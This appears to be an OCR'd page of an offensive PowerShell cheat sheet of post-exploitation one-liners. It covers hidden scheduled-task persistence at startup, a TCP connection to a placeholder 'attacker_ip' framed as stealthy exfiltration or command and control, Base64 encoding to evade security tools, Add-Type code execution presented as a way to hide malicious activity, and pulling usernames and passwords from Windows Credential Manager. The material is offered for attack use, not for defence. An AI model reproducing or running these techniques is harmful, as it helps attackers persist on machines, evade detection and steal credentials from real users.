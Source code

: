 ## **Scheduled Task for Persistence**



`$action = New-ScheduledTaskAction -Execute 'Powershell.exe' -Argument '-NoProfile -WindowStyle Hidden -Command "YourCommand"'; $trigger = New-ScheduledTaskTrigger -AtStartup; Register-ScheduledTask -Action $action -Trigger $trigger -TaskName 'MyTask' -Description 'MyDescription'`

Creates a scheduled task to execute PowerShell commands, ensuring persistence and execution even after system reboots.

---

## **Using PowerShell to Interact with the Network Quietly**



`$client = New-Object Net.Sockets.TcpClient('attacker_ip', 443); $stream = $client.GetStream(); # Send and receive data`

Establishes a network connection for quiet data transmission, useful for maintaining stealth during data exfiltration or command and control operations.

---

## **Base64 Encoding for Command Obfuscation**



`$command = 'Get-Process'; $encodedCommand = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($command)); powershell.exe -EncodedCommand $encodedCommand`

Encodes a PowerShell command in Base64 to obfuscate it, making it less detectable by security tools.

---

## **Utilizing PowerShell Add-Type for Code Execution**



`Add-Type -TypeDefinition 'using System; public class MyClass { public static void Run() { Console.WriteLine("Executed"); } }'; [MyClass]::Run()`

Defines and executes code within a custom .NET class using PowerShell, which can be used to hide malicious activities within seemingly benign code.

---

## **Extracting Credentials from Windows Credential Manager**



`$credman = New-Object -TypeName PSCredentialManager.Credential; $credman | Where-Object { $_.Type -eq 'Generic' } | Select-Object -Property UserName, Password`
